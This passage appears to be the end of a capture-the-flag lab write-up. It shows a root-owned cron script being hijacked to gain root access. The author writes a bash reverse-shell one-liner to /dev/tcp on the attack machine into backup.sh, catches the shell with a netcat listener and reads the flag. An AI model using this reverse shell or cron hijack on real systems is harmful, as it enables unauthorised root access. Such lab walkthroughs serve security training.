2025/06/18 02:13:32 CMD: UID=33    PID=574    | sh -c uname -a; w; id; /bin/sh -i
2025/06/18 02:13:32 CMD: UID=33    PID=567    | /usr/sbin/apache2 -k start
2025/06/18 02:13:32 CMD: UID=0     PID=556    | -bash
2025/06/18 02:13:32 CMD: UID=0     PID=552    | (sd-pam)
2025/06/18 02:13:32 CMD: UID=0     PID=551    | /lib/systemd/systemd --user
2025/06/18 02:13:32 CMD: UID=33    PID=464    | /usr/sbin/apache2 -k start
2025/06/18 02:13:32 CMD: UID=33    PID=463    | /usr/sbin/apache2 -k start
2025/06/18 02:13:32 CMD: UID=33    PID=462    | /usr/sbin/apache2 -k start
2025/06/18 02:13:32 CMD: UID=33    PID=461    | /usr/sbin/apache2 -k start
2025/06/18 02:13:32 CMD: UID=33    PID=460    | /usr/sbin/apache2 -k start
2025/06/18 02:13:32 CMD: UID=0     PID=445    | /usr/sbin/apache2 -k start
2025/06/18 02:13:32 CMD: UID=106   PID=444    | /usr/sbin/mysqld
2025/06/18 02:13:32 CMD: UID=0     PID=379    | /usr/sbin/sshd -D
2025/06/18 02:13:32 CMD: UID=0     PID=361    | /bin/login -p --
2025/06/18 02:13:32 CMD: UID=0     PID=347    | /usr/sbin/vsftpd /etc/vsftpd.conf
2025/06/18 02:13:32 CMD: UID=0     PID=331    | /sbin/dhclient -4 -v -i -pf /run/dhclient.enp0s3.pid -lf /var/lib/dhcp/dhclient.enp0s3.leases -I -df /var/lib/dhcp/dhclient6.enp0s3.leases enp0s3
2025/06/18 02:13:32 CMD: UID=0     PID=316    | /lib/systemd/systemd-logind
2025/06/18 02:13:32 CMD: UID=0     PID=315    | /usr/sbin/cron -f
2025/06/18 02:13:32 CMD: UID=104   PID=310    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
2025/06/18 02:13:32 CMD: UID=0     PID=309    | /usr/sbin/rsyslogd -n -iNONE
2025/06/18 02:13:32 CMD: UID=0     PID=298    |
2025/06/18 02:13:32 CMD: UID=0     PID=297    |
2025/06/18 02:13:32 CMD: UID=101   PID=278    | /lib/systemd/systemd-timesyncd
2025/06/18 02:13:32 CMD: UID=0     PID=238    | /lib/systemd/systemd-udevd
2025/06/18 02:13:32 CMD: UID=0     PID=213    | /lib/systemd/systemd-journald
2025/06/18 02:13:32 CMD: UID=0     PID=187    |

(--- snip ---)

2025/06/18 02:13:32 CMD: UID=0     PID=2      |
2025/06/18 02:13:32 CMD: UID=0     PID=1      | /sbin/init
2025/06/18 02:14:00 CMD: UID=0     PID=20395  | /sbin/dhclient -4 -v -i -pf /run/dhclient.enp0s3.pid -lf /var/lib/dhcp/dhclient.enp0s3.leases -I -df /var/lib/dhcp/dhclient6.enp0s3.leases enp0s3
2025/06/18 02:14:00 CMD: UID=0     PID=20396  | /bin/sh /sbin/dhclient-script
2025/06/18 02:14:00 CMD: UID=0     PID=20397  | /bin/sh /sbin/dhclient-script
2025/06/18 02:14:00 CMD: UID=0     PID=20398  | /bin/sh /sbin/dhclient-script
2025/06/18 02:14:00 CMD: UID=0     PID=20399  | /bin/sh /sbin/dhclient-script
2025/06/18 02:14:00 CMD: UID=0     PID=20400  | /bin/sh /sbin/dhclient-script
2025/06/18 02:14:00 CMD: UID=0     PID=20401  | /bin/sh /sbin/dhclient-script
2025/06/18 02:14:00 CMD: UID=0     PID=20402  | /bin/sh /sbin/dhclient-script
2025/06/18 02:14:00 CMD: UID=0     PID=20403  | /bin/sh /sbin/dhclient-script
2025/06/18 02:14:01 CMD: UID=0     PID=20404  | /usr/sbin/CRON -f
2025/06/18 02:14:01 CMD: UID=0     PID=20405  | /usr/sbin/CRON -f
2025/06/18 02:14:01 CMD: UID=0     PID=20406  | /bin/sh -c /home/grimmie/backup.sh
2025/06/18 02:14:01 CMD: UID=0     PID=20407  | /bin/bash /home/grimmie/backup.sh
2025/06/18 02:14:01 CMD: UID=0     PID=20408  | /bin/bash /home/grimmie/backup.sh
2025/06/18 02:14:01 CMD: UID=0     PID=20409  | /bin/bash /home/grimmie/backup.sh
2025/06/18 02:15:01 CMD: UID=0     PID=20410  | /usr/sbin/CRON -f
2025/06/18 02:15:01 CMD: UID=0     PID=20411  | /usr/sbin/CRON -f
2025/06/18 02:15:01 CMD: UID=0     PID=20412  | /bin/sh -c /home/grimmie/backup.sh
2025/06/18 02:15:01 CMD: UID=0     PID=20413  | /bin/bash /home/grimmie/backup.sh
2025/06/18 02:15:01 CMD: UID=0     PID=20414  | /bin/bash /home/grimmie/backup.sh
2025/06/18 02:15:01 CMD: UID=0     PID=20415  | /bin/bash /home/grimmie/backup.sh
```


The script runs automatically every minute. We can now exploit the circumstance
that it is run by `root` (UID=0). Googling for `bash reverse shell one liner`
shows this [Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
where we can find reverse shell one-liners in a lot of different languages. We
copy the bash one-liner into the `backup.sh` script, enter the correct IP address
(our attack machine):

```
grimmie@academy:~$ cat backup.sh
#!/bin/bash

bash -i >& /dev/tcp/10.0.2.5/8080 0>&1
```

Finally, we start another listener on the attack machine using port 8080 and
wait for the reverse shell to be executed as `root` by the cronjob.


```
┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.15] 48962
bash: cannot set terminal process group (20717): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~# whoami
whoami
root
root@academy:~# cd /root
cd /root
root@academy:~# ls
ls
flag.txt
root@academy:~# cat flag.txt
cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.

Happy hacking !
root@academy:~# 
```


**Mission accomplished.**


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
